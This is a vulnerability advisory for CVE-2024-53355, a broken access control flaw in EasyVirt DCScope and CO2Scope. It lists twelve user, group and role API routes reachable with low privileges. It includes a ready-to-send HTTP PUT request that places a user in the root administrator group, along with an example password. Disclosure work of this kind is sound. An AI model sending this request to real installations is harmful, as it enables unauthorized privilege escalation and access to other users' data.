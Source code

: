 # [CVE-2024-53355] - EasyVirt - Broken Access Control
#### Exploit Author: [Aurélien BOURDOIS](https://www.linkedin.com/in/aurelien-bourdois)
#### Date: 25-10-2024
#### Vendor: [EasyVirt](https://www.easyvirt.com/)
#### Vulnerable versions: 
- DCScope <= 8.6.0
- CO2Scope <= 1.3.0

## Description:
Multiple incorrect access control in EasyVirt **DCScope <= 8.6.0** and **CO2Scope <= 1.3.0** allows remote authenticated attackers, with low privileges, to (1) add an admin user via the `/api/user/addalias` route; (2) modifiy a user via the `/api/user/updatealias` route; (4) delete users via the `/api/user/delalias` route; (4) get users via the `/api/user/aliases` route; (5) add a root group via the `/api/user/adduser` route; (6) modifiy a group via the `/api/user/updateuser` route; (7) delete a group via the `/api/user/deluser` route; (8) get groups via the `/api/user/users` route; (9) add an admin role via the `/api/user/addrole` route; (10) modifiy a role via the `/api/user/updaterole` route; (11) delete a role via the `/api/user/delrole` route; (12) get roles via the `/api/user/roles` route.

## Exploitation:
Privilege escalation:
```
PUT /api/user/updatealias HTTP/1.1
Host: XX.XX.XX.XX
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json; charset=utf-8
Authorization: Token eyJhbGciOiJIU[..snip..]
Content-Length: 113
Te: trailers
Connection: close

{"login":"elymaro","password":"GBpkyhfCkZtPX95fFmddzg==","user":"root","is_local":1,"is_ldap":0,"is_openid":0}
```
> The parameter `user` means group. `root` is the default administrator group.
>
> The encrypted password is `Elym@r0`. 

## Impact :
A low-privileged user can modify his own group, change its permissions or create/modify other users, enabling escalation of privileges.
In addition, the user can access other users' data, including e-mails, login names, group and role membership.
